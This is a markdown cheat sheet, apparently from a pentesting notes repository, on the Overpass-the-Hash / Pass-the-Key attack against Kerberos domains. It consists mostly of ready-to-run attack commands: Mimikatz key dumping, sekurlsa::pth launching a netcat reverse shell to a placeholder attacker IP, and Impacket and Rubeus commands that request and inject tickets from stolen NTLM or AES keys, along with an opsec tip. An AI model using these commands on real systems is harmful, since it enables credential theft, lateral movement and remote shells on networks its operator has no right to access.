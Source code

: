 # Overpass the Hash / Pass the Key (PtK)

## Similar to PtH but applied to kerberos networks.

### The Overpass The Hash/Pass The Key (PTK) attack is designed for environments where the traditional NTLM protocol is restricted, and Kerberos authentication takes precedence. This attack leverages the NTLM hash or AES keys of a user to solicit Kerberos tickets, enabling unauthorized access to resources within a network.

### To execute this attack, the initial step involves acquiring the NTLM hash or password of the targeted user's account. Upon securing this information, a Ticket Granting Ticket (TGT) for the account can be obtained, allowing the attacker to access services or machines to which the user has permissions.

### If we have any of those keys (DES,RC4,AES128,AES256) we can ask the KDC for a TGT without requiring the actual password. (Pass-the-Key)

#### privilege::debug

#### sekurlsa::ekeys

#### sekurlsa::pth /user:Administrator /domain:DOMAIN /rc4:KEY /run:"c:\tools\nc64.exe -e cmd.exe ATTACK_IP PORT"

#### /aes128:KEY can also be used instead 

#### /aes256:KEY can also be used instead 

#### nc -lvp PORT

## Alternate Method: Impacket getTGT

 - python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7

 - export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache

 - python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass

## Alternate Method: Rubeus

 - .\Rubeus.exe asktgt /domain:jurassic.park /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt

 - .\PsExec.exe -accepteula \\labwws02.jurassic.park cmd

 - .\Rubeus.exe asktgt /user:<USERNAME> /domain:<DOMAIN> /aes256:HASH /nowrap /opsec (Use AES256 for better opsec)


## Tools: Rubeus , getTGT.py

#### 1) getTGT.py

 - getTGT.py DOMAIN/USER -hashes:HASHES (Overpass the Hash. Pass the ticket with NTLM hash)

 - getTGT.py -aesKey 'KEY' DOMAIN/USER@IP (Pass the Key. Pass the ticket with AES Key)

#### 2) Rubeus

 - Rubeus asktgt /user:VICTIM /rc4:RC4_VALUE

 - Rubeus ptt /ticket:TICKET (Successful PtT attack)

### Alternate usage:

 - Rubeus asktgt /user:VICTIM /rc4:RC4_VALUE

 - Rubeus createnetonly /program:C:\Windows\System32\[cmd.exe||upnpcont.exe]

 - Rubeus ptt /luid:0xdeadbeef /ticket:TICKET (Pass the ticket)
